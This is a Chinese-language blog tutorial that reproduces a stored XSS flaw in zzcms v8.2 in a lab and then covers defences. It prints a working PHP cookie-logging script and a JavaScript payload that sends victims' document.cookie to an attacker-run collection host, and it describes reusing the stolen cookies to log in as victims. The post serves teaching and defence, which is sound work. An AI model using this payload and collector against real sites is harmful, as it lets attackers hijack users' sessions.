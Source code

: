 ```yaml
---
title: XSS 跨域攻击机制及防御技术
tags: XSS漏洞
categories: Web-security
abbrlink: 57250
date: 2019-06-02 11:43:29
---
```


## 前言

最近在[`CNVD`（国家信息安全漏洞共享平台）](<https://www.cnvd.org.cn/flaw/typelist?typeId=29>)找了一个存在`XSS`漏洞的`Web`应用进行复现。在`PHP` + `MySQL`环境上搭建出一个真实的实验环境对`zzcms v8.2`的一个`XSS`漏洞进行复现，进而解析`XSS`跨域攻击机制及防御技术。

<!-- more -->

## 背景

跨站脚本攻击`（XSS）`是客户端`Web`安全的最大威胁之一，不仅危害`Web`业务本身，同时对访问`Web`业务的用户也会带来直接的影响。因跨站脚本攻击的多样性以及`Web`安全漏洞的隐蔽性，使得`XSS`的攻击很难彻底防御。

### XSS 攻击的原理

跨站脚本攻击本质上是一种将恶意脚本嵌入到当前网页中并执行的攻击方式。通常情况下，黑客通过“`HTML`注入”行为篡改网页，并插入恶意`JavaScript`脚本，从而在用户浏览网页的时候控制浏览器行为。这种漏洞产生的主要原因是网站对于用户提交的数据过滤不严格，导致用户提交的数据可以修改当前页面或者插入了一段脚本。

攻击者可利用其用户身份在输入参数时，附带了恶意脚本，在提交服务器之后，服务器没有对用户端传入的参数做任何安全过滤。之后服务器会根据业务流程，将恶意脚本存储在数据库中或直接回显给用户。在用户浏览含有恶意脚本的页面时，恶意脚本会在用户浏览器上成功执行。

### XSS 攻击的分类

- 反射型跨站攻击：涉及浏览器—服务器交互
- 存储型跨站攻击：涉及浏览器—服务器—数据库交互
- DOM型跨站攻击：涉及浏览器—服务器交互

### XSS 攻击危害

- 窃取用户Cookie
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
- 窃取具有商业价值的资料
- 非法转账，非法进行交易
- 植入木马病毒
- 强行弹出广告
- 操控用户主机
- ...

## XSS 攻击实现

`XSS`攻击是需要满足`XSS`攻击的条件。`XSS`漏洞的利用过程较为直接。反射型/`DOM`型跨站攻击均可以理解为：服务器接收到数据，并原样返回给用户，整个过程中`Web`应用并没有存入数据库，这也导致了攻击无法持久化，仅针对当次请求有效，也就无法直接攻击其他用户。一般这两类攻击也可利用钓鱼、垃圾邮件等手段产生攻击其他用户效果。

反射型与存储型`XSS`攻击的实现原理和主要流程非常相似，但由于存储型`XSS`攻击的持久性及危害更加强大，所以本次`XSS`攻击实现，将采用存储型跨站攻击方式进行实践分析。

首先，要成功实施跨站脚本攻击，我们需要了解一下存储型跨站的主要业务流程

<div style="width:100%;height:100%;text-align:center;font-size: 0;"><img src="57250\business-process.png"/></div>
<!-- ![business-process](./xss-attack-and-defense/business-process.png) -->

根据上图业务流程，存储型`XSS`攻击有两个重点的步骤：信息入库处理、出库处理，结合`XSS`攻击的特性可知，`XSS`攻击成功必须要满足以下四个条件：

1. 目标网页有攻击者可控的输入点
2. 输入信息可以在受害者的浏览器中显示
3. 输入具备功能的可执行脚本，且在信息输入和输出的过程中没有特殊字符的过滤和字符转义等防护措施，或者说防护措施可以通过一定的手段绕过
4. 浏览器将输入解析为脚本，并具备执行该脚本的能力

以上四点缺一不可。如果需要做针对`XSS`攻击的防御，只要针对上述任何一点做好防御，攻击就无法正常开展，`XSS`漏洞也就不存在了，后面将详细解析`XSS`攻击的防御。

### 搭建zzcms v8.2服务运行环境

因为`zzcms v8.2`是基于`php` + `mysql`环境下运行的，这里将采用`php` +`mysql` + `xampp` 将`zzcms`部署在`window`系统上，然后通过浏览器地址栏输入主机`IP`可进入到`zzcms`的首页，即搭建成功。部署好靶机后，我们任需要一个收集敏感信息的站点，一个攻击者站点，同时还需要一个用户主机的站点，准备好这些站点，将可以进行漏洞复现。

### 部署攻击者准备的收集敏感信息的站点

同样，我们任需通过`xampp`来部署收集敏感信息的站点，在`..\xampp\htdocs\`路径下新建一个文件夹用于采收用户的敏感信息，这里复现漏洞将采用获取用户的`cookie`值为例。新建文件夹命名为`xss`，然后在`..\xampp\htdocs\xss`路径下新建`index.php`用于获取用户的`cookie`。在该`php`文件下输入以下代码：

```php
<?php 
$cookie=$_GET['cookie'];      //以GET方式获得cookie变量值 
$time=date('Y-m-d g:i:s');    //以“年-月-日 时：分：秒”的格式显示时间 
$referer=getenv('HTTP_REFERER');       //获取referer 
$cookietxt=fopen('cookie.txt','a');   //打开cookie.txt，若不存在则创建它 
fwrite($cookietxt,"time:".$time. " cookie:".$cookie. " referer:".$referer);    //写入文件 
fclose($cookietxt);     //关闭文件 
?>
```

### 实施攻击

跨站脚本攻击最典型的形式就是在网站的评论功能、论坛私信功能和发表帖子以及留言板等处使用静心构造的`HTML`代码提交数据，从而达到恶意攻击目的。

在我们刚刚部署好的靶机上，攻击者访问了刚刚搭建的存在`XSS`漏洞的`zzcms`网站，攻击者通过登录注册进入到存在漏洞的输入框，开始植入恶意代码

```javascript
<script>
    document.write('<img src="http://192.168.238.148/xss/index.php?cookie='+document.cookie+'"width=0 height=0 border=0/>');
</script>
```

通过`img`的`src`属性自带跨域机制，以及指定的`url`传参的形式将窃取到敏感信息发送至攻击者准备的收集信息站点。攻击的类型为存储型跨站攻击，也就是说，攻击者植入的这些恶意代码将通过存储型跨站的业务流程，存入数据库，并能返回给用户，同时浏览器将输出解析为脚本，并执行该脚本。而且该脚本长期有效，并且一直存在该网站上。

到此，攻击者已经完成了攻击，接下来就是等待用户点击此链接，从而窃取用户的`cookie`值。

### 窃取用户敏感信息

攻击者发布存在恶意代码的链接将一直存在该网站，而普通用户并不知道该链接存在恶意代码，所以当普通用户点击该链接后，攻击者将窃取敏感信息。

<div style="width:100%;height:100%;text-align:center;font-size: 0;"><img src="57250\cookie.jpg"/></div>
<!-- ![cookie](./xss-attack-and-defense/cookie.jpg) -->

上图所示均为攻击者收集敏感信息站点所收集到的用户`cookie`信息，攻击者可采用此敏感信息进行伪登录，从而获取更多用户信息。

## XSS 攻击的防御

上面提到了`XSS`攻击的必要条件，那么只要破坏`XSS`攻击的必要条件将可防止`XSS`安全漏洞。目前对`XSS`漏洞的防御一般有两种方式。

### 代码层防御

`XSS`攻击防范主要是由程序漏洞造成的，治标还要治本，从代码层面上采用预防漏洞的高级编程技术，可以帮助大大减少`XSS`安全漏洞。

- 对用户输入和`URL`参数进行过滤，对输出进行编码
- 对用户所有提交内容进行验证，包括`URL`、查询关键字、`HTTP`头、`POST`数据等
- 仅接受指定长度范围内、采用适当格式、采用所预期的字符的内容提交
- 在变量值输出到前端的`HTML`时进行编码和转义，对特殊字符进行过滤和转义
- 给关键的`cookie`使用`http-only`

### 部署专业的防御设备

目前较为流行的有入侵防御产品，利用的就是入侵防御产品对应用层攻击的检测防御能力。用户在选择相应的产品时，可先了解相关产品的`XSS`、`SQL`注入等`Web`威胁的检测方式。部分检测`XSS`攻击产品是通过一定特征进行匹配代码检测。一旦检测到关键指定代码，将判定为`XSS`攻击，从而阻断程序进行。

## 总结

`XSS`攻击是最常见的`Web`攻击方式之一，和`SQL`注入漏洞不同的是，`XSS`漏洞存在多样性和隐蔽性，更加难以发现。一般的防御措施也仅限在通过编写高质量的程序，从而来过滤存在恶意的代码，但是这样难免会出现遗漏或者疏忽的地方，所以在安全与高效之间，必须要兼顾安全再进一步高效编码，一旦疏忽或者遗漏而产生漏洞带来的后果将是不可估量的。



参考文献

《Web安全防护指南》、《黑客攻防实战秘技》、[XSS攻击防御技术白皮书](<http://netsecurity.51cto.com/art/200807/81551.htm> )、[XSS的攻击与防范]( <https://www.freebuf.com/articles/web/185654.html>)